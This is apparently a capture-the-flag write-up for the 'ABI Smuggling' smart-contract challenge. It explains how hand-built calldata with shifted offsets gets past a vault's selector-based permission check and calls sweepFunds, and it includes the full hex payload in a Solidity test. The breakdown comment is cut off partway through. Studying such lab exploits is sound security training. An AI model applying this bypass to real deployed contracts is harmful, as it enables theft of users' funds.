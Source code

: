###  ABI Smuggling

#### Task: 

There’s a permissioned vault with 1 million DVT tokens deposited. The vault allows withdrawing funds periodically, as well as taking all funds out in case of emergencies.

The contract has an embedded generic authorization scheme, only allowing known accounts to execute specific actions.

The dev team has received a responsible disclosure saying all funds can be stolen.

Rescue all funds from the vault, transferring them to the designated recovery account.


#### Solution Explanation:

In this exploit, ABI-smuggling was used to bypass authorization checks and execute unauthorized actions within the vault. Here’s an outline of how it works:

Offset Manipulation: We create custom calldata that shifts data to manipulate function selectors and bypass the vault’s permissions check. We made it longer to place a needed function selector padded with blank bytes before the actual actionData parameter.


This allowed us to pass the check for a function selector that was allowed for us, but the sweepFunds function was ultimately called, which allowed us to access the contract funds.


<details>
  <summary> Code </summary>

  ```solidity
  function test_abiSmuggling() public checkSolvedByPlayer {
        bytes memory actionData = hex"1cff79cd0000000000000000000000001240FA2A84dd9157a0e76B5Cfe98B1d52268B26400000000000000000000000000000000000000000000000000000000000000800000000000000000000000000000000000000000000000000000000000000000d9caed1200000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000004485fb709d00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b";
        (bool success, bytes memory result) = address(vault).call{value: 0}(actionData);
        assertEq(success, true);
        /*
        execute
        0x1cff79cd

        target
        0000000000000000 
        000000001240FA2A
        84dd9157a0e76B5C
        fe98B1d52268B264
        
        offset
        0000000000000000
        0000000000000000
        0000000000000000
        0000000000000080

        0000000000000000
        0000000000000000
        0000000000000000
        0000000000000000

        withdraw.selector
        d9caed1200000000
        0000000000000000
        0000000000000000
        0000000000000000
  ```